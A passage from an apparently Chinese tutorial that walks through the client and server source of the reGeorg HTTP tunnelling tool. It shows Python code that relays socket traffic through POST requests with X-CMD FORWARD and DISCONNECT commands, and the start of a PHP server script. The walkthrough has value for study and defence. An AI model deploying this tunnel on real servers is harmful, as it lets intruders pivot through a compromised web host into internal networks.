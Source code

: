    ```python
                headers = {"X-CMD": "FORWARD", "Cookie": self.cookie, "Content-Type": "application/octet-stream", "Connection": "Keep-Alive"}
                response = conn.urlopen('POST', self.connectString + "?cmd=forward", headers=headers, body=data)
                if response.status == 200:
                    status = response.getheader("x-status")
                    if status == "OK":
                        if response.getheader("set-cookie") is not None:
                            self.cookie = response.getheader("set-cookie")
                    else:
                        log.error("[%s:%d] HTTP [%d]: Status: [%s]: Message [%s] Shutting down" % (self.target, self.port, response.status, status, response.getheader("x-error")))
                        break
                else:
                    log.error("[%s:%d] HTTP [%d]: Shutting down" % (self.target, self.port, response.status))
                    break
                transferLog.info("[%s:%d] >>>> [%d]" % (self.target, self.port, len(data)))
            except timeout:
                continue
            except Exception, ex:
                raise ex
                break
        self.closeRemoteSession()
        log.debug("Closing localsocket")
        try:
            self.pSocket.close()
        except:
            log.debug("Localsocket already closed")
    ```

8. 之后会根据本地程序的操作是否结束而进入读写循环，若数据交互结束则通过`DISCONNECT`结束代理连接。

    ```python
    def closeRemoteSession(self):
        headers = {"X-CMD": "DISCONNECT", "Cookie": self.cookie}
        params = ""
        conn = self.httpScheme(host=self.httpHost, port=self.httpPort)
        response = conn.request("POST", self.httpPath + "?cmd=disconnect", params, headers)
        if response.status == 200:
            log.info("[%s:%d] Connection Terminated" % (self.target, self.port))
        conn.close()
    ```

#### 服务端

官方原生代码脚本中根据可能的服务端环境给出了多个版本的服务端脚本。这里以`PHP`脚本为例：

1. 首先设置相关功能需要的环境条件，如开启文件包含文件引用,导入socket：

    ```php
    ini_set("allow_url_fopen", true);
    ini_set("allow_url_include", true);
    dl("php_sockets.dll");
    ```

2. 接收到请求后根据`GET`类型和`POST`类型判断是否为新客户端请求询问服务端是否正常，并返回消息。

    ```php
    if ($_SERVER['REQUEST_METHOD'] === 'GET')
    {
        exit("Georg says, 'All seems fine'");
    }
   ```
